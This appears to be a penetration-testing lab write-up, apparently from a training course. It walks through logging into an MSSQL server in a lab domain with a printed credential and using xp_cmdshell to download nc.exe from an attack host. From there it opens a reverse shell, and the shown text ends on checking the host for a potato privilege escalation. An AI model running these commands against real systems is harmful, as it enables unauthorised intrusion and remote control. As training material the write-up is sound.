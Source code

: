 netdb:D@ta\_bAse\_adm1n!

**Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.**

```
.\mssqlclient.exe INLANEFREIGHT.LOCAL/netdb:'D@ta_bAse_adm1n!'@172.16.7.60
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption><p>netdb:D@ta_bAse_adm1n!</p></figcaption></figure>

Seems like the xp\_cmdshell is working without enabling it

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption><p>service\mssql$sqlexpress</p></figcaption></figure>

Since we can execute commands through xp\_cmdshell, we can try to move file overthere and try getting reverse shell.

Start python server at linux attack machine where the nc.exe is present

<pre><code><strong>xp_cmdshell "powershell.exe wget http://172.16.7.240:8000/nc.exe -OutFile c:\\Users\Public\\nc.exe"
</strong>xp_cmdshell  "c:\\Users\Public\\nc.exe -e cmd.exe 172.16.7.240 4444"
</code></pre>

Don't forget to run nc -lvnp 4444 at the attack host.

<figure><img src="../../../.gitbook/assets/image (1) (1) (3).png" alt=""><figcaption><p>got the shell</p></figcaption></figure>

Since the seImpersonate was enabled there are few vulnerabilities that we could try. We can check if the system is vulnerable to juicy potato attack

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

Host Name:                 SQL01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 5 Hotfix(s) Installed.
```
